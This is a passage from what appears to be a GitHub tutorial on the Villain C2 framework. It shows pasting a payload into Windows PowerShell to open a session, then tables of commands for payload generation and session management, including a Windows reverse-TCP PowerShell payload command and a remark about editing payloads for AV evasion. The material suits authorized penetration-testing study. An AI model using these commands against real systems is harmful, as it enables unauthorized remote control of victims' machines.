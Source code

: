      <img width="1104" height="692" alt="Screenshot 2025-08-10 142143" src="https://github.com/user-attachments/assets/e00e2111-9275-4934-9f1d-dba5e7b72491" />

   - Open Windows Power Shell
     * paste the payload and click Enter.
  
     <img width="1472" height="404" alt="Screenshot 2025-08-10 142656" src="https://github.com/user-attachments/assets/6e65310e-3974-46f7-b226-e627e9710270" />

   - You can see the new sessiion established in Villain Frame Work.

     <img width="1103" height="468" alt="Screenshot 2025-08-10 144331" src="https://github.com/user-attachments/assets/3bda2bed-8807-4e23-b4c2-61cd165a0fab" />
## 5. Villain Framework – Command Reference💀

   A categorized list of **Villain C2 Framework** commands with their uses.  
   Use this for penetration testing in **authorized lab environments only**.

---

## 1. General & Utility Commands
   | Command | Purpose |
   |---------|---------|
   | `help` | Displays all available commands. |
   | `clear` | Clears the terminal. |
   | `exit` / `quit` | Exit the Villain interface. |
   | `banner` | Show the Villain banner again. |
   | `update` | Update Villain from the GitHub repo. |
   | `flee` | Exit Villain without killing active sessions. |

---

## 2. Payload Generation
| Command | Purpose |
|---------|---------|
| `generate` | Launch payload creation wizard. |
| `generate payload=<type> lhost=<IP/interface> [lport=<port>]` | Create a payload directly. |
| Example | `generate payload=windows/reverse_tcp/powershell lhost=eth0 lport=4444` |

You can edit them for **customization and AV evasion**.

---

## 3. Session Management
| Command | Purpose |
|---------|---------|
| `sessions` | List all active sessions. |
| `sessions -k <ID>` | Kill a session. |
| `shell <ID>` | Interact with a specific session. |
| `background` | Send current session to background. |

---